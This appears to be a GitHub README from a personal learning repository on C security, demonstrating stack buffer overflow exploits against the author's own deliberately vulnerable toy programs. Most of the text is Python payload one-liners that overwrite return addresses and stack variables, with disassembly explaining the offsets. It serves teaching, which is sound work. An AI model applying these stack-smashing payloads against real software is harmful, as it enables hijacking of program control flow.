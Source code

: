 # Security in C code

This is a self training/blog for my own learning process of security. Do not
expect expert content since I am NOT a security expert. Feel free to rise bugs
if something is wrong or you would like to explore other security attacks.
Feedback more than welcome.

## Buffer Overflow Exploit Example

This example simply exploit the buffer by smashing the stack and modifying the
return address of the function. This will be used to call some other function.
It is based on this good
[tutorial](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/) 
[theory](http://www.cis.syr.edu/~wedu/seed/Book/book_sample_buffer.pdf)


```
    $ gcc vuln.c -o vuln -m32 -O0
    $ python2 -c 'print "a"*32 + "\xb2\x84\x04\x08"' | ./vuln
```

IMPORTANT: To compile 32 bit binaries on 64 bit Linux version, you have to Install libx32gcc development package and 32 bit GNU C Library

try this

```
sudo apt-get install libx32gcc-4.8-dev
```

and

```
sudo apt-get install libc6-dev-i386
```

For the case of vuln-variable

```
python2 -c 'print "a"*(4*16 +1)' | ./vuln-variable

```

This is because : 

```
 8048473:       c7 45 f4 00 00 00 00    movl   $0x0,-0xc(%ebp)
 804847a:       83 ec 0c                sub    $0xc,%esp
 804847d:       8d 45 b4                lea    -0x4c(%ebp),%eax
 8048480:       50                      push   %eax
 8048481:       e8 aa fe ff ff          call   8048330 <gets@plt>
 8048486:       83 c4 10                add    $0x10,%esp
 8048489:       8b 45 f4                mov    -0xc(%ebp),%eax
 804848c:       85 c0                   test   %eax,%eax

```

Watch this video to get the idea:
[video](https://www.youtube.com/watch?v=T03idxny9jE)


Now lets modify to an specific value : 

vuln-variable-specific.c

this wil be with : 


```
./a.out $(python2 -c 'print "a"*(4*16) +  "\x64\x63\x62\x61"')

```

because : 

```
 8048510:       8d 45 b4                lea    -0x4c(%ebp),%eax
 8048513:       50                      push   %eax
 8048514:       e8 77 fe ff ff          call   8048390 <strcpy@plt>
 8048519:       83 c4 10                add    $0x10,%esp
 804851c:       8b 45 f4                mov    -0xc(%ebp),%eax
 804851f:       3d 64 63 62 61          cmp    $0x61626364,%eax
 8048524:       75 12                   jne    8048538 <main+0x66>
```

For vuln-fun-var.c

```
python2 -c 'import struct; print "a"*32+struct.pack("iiii",0x080484f2,0,3,2)' | ./a.out
```
